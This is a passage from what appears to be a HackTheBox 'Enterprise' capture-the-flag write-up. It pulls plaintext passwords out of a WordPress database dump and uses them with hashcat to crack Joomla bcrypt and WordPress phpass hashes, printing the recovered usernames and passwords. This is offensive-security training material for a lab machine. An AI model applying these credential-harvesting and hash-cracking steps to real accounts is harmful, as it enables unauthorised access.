 ```bash
68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:40:30,2017-09-06 15:40:30,<blank>,closed,<blank>,2017-09-06 14:40:30,<blank>
```

Here are the passwords found :
- `ZxJyhGem4k338S2Y`
- `enterprisencc170`
- `ZD3YxfnSjezg67JZ`
- `u*Z14ru0p#ttj83zS6`

With these found credentials, let's try cracking hashes again.

Starting from the credentials of `joomla`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 joomla.hashes passwords.txt                      
hashcat (v6.2.6) starting

$2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy:ZD3YxfnSjezg67JZ
$2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q:ZxJyhGem4k338S2Y
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: joomla.hashes
Time.Started.....: Fri Jan  3 06:13:41 2025 (1 sec)
Time.Estimated...: Fri Jan  3 06:13:42 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       47 H/s (1.94ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 6/6 (100.00%)
Rejected.........: 0/6 (0.00%)
Restore.Point....: 0/3 (0.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: ZxJyhGem4k338S2Y -> ZD3YxfnSjezg67JZ
Hardware.Mon.#1..: Util: 27%
```

 Both hashes are cracked, and I owned two valid credentials for `joomla`.
- `geordi.la.forge` : `ZD3YxfnSjezg67JZ`
- `guinan` : `ZxJyhGem4k338S2Y`

Let's do the same for `william.riker`'s hash on `wordpress`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 400 -a 0 wp.hash passwords.txt
hashcat (v6.2.6) starting

<SNIP>

$P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.:u*Z14ru0p#ttj83zS6     
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2.
Time.Started.....: Fri Jan  3 06:17:24 2025 (0 secs)
Time.Estimated...: Fri Jan  3 06:17:24 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
```